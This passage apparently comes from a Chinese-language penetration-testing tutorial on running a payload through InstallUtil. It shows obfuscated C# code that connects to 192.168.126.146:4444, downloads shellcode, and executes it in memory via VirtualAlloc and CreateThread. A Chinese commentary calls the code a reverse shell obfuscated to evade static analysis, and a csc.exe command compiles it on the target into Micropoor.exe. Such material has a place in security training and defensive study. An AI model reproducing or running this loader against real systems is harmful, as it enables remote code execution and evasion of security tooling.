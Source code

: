 ```csharp
        byte[] TvvzOgPLqwcFFv=BitConverter.GetBytes((int)XXxIoIXNCle.Handle);
        Array.Copy(TvvzOgPLqwcFFv,0,qaYyFq,1,4);
        qaYyFq[0]=0xBF;
        return qaYyFq;
    }

    static void cmMtjerv(byte[] HEHUjJhkrNS) {
        if(HEHUjJhkrNS!=null) {
            UInt32 WcpKfU=VirtualAlloc(0,(UInt32)HEHUjJhkrNS.Length,0x1000,0x40);
            Marshal.Copy(HEHUjJhkrNS,0,(IntPtr)(WcpKfU),HEHUjJhkrNS.Length);
            IntPtr UhxtIFnlOQatrk=IntPtr.Zero;
            UInt32 wdjYKFDCCf=0;
            IntPtr XVYcQxpp=IntPtr.Zero;
            UhxtIFnlOQatrk=CreateThread(0,0,WcpKfU,XVYcQxpp,0,ref wdjYKFDCCf);
            WaitForSingleObject(UhxtIFnlOQatrk,0xFFFFFFFF);
        }
    }

    public static void LCIUtRN() {
        byte[] IBtCWU=null;
        IBtCWU=ErlgHH("192.168.126.146",4444);
        cmMtjerv(IBtCWU);
    }
}
```

**代码分析**：
- **功能**：该代码实现了一个反弹Shell，通过TCP连接到攻击者控制的服务器（`192.168.126.146:4444`），接收并执行远程Payload。
- **关键组件**：
  - `GQLBigHgUniLuVx`：包含一个简单的`Main`方法，显示消息框（可能是用于调试或混淆）。
  - `esxWUYUTWShqW`：继承自`Installer`类，使用`[RunInstaller(true)]`属性，在卸载操作（`/U`参数）时触发`LCIUtRN`方法。
  - `jkmhGrfzsKQeCG`：核心恶意逻辑，包含：
    - `ErlgHH`：建立TCP连接，接收Payload。
    - `cmMtjerv`：使用`VirtualAlloc`分配内存，复制Payload并创建线程执行。
    - `LCIUtRN`：发起连接并执行Payload。
- **混淆**：使用随机类名和变量名（如`esxWUYUTWShqW`、`ZwznjBJY`）以规避静态分析。

#### 2.编译Payload
在靶机上使用.NET Framework的C#编译器（`csc.exe`）编译代码：

```cmd
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:System.EnterpriseServices.dll /r:System.IO.Compression.dll /target:library /out:Micropoor.exe /unsafe C:\Users\Administrator\Desktop\a\installutil.cs
```

- **参数说明**：
  - `/r`：引用必要的DLL（如`System.EnterpriseServices.dll`）。
  - `/target:library`：输出为DLL文件，适合`InstallUtil.exe`执行。
  - `/unsafe`：允许不安全的代码（如调用`VirtualAlloc`）。
  - `/out`：指定输出文件名（`Micropoor.exe`）。
- **输出**：生成`Micropoor.exe`，实际上是一个.NET程序集。
